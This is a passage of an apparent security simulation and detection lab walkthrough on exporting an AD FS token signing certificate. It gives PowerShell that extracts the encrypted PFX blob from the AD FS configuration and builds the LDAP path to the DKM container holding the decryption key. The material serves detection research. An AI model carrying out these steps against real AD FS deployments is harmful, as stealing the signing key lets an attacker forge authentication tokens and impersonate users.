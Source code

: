 ## Get AD FS token signing certificate (Encrypted Blob)
Now that we have the AD FS configuration settings, we can parse it and get the AD FS token signing certificate. Make sure the variable `$settings` contains the AD FS configuration settings strings. Also, remember that this step would usually happen outside of the organization.

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
```

![](../../resources/images/simulate_detect/credential-access/localExportADFSTokenSigningCertificate/2021-05-19_05_get_encrypted_certificate.png)

## Get AD FS DKM Container Active Directory Path
Even though we were able to get the AD FS token signing certificate, we still need to decrypt it. As mentioned at the beginning of this document, the AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to derive the symmetric key to decrypt them is stored in the AD DS server.

The AD FS DKM key value is stored in the `ThumbnailPhoto` attribute of a contact AD object in the AD FS DKM container. Therefore, we first need to get the right path to the AD FS DKM container and specific DKM group. We can get this information from the AD FS configuration settings we obtained earlier.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
```

![](../../resources/images/simulate_detect/credential-access/localExportADFSTokenSigningCertificate/2021-05-19_06_get_ad_dkm_path.png)
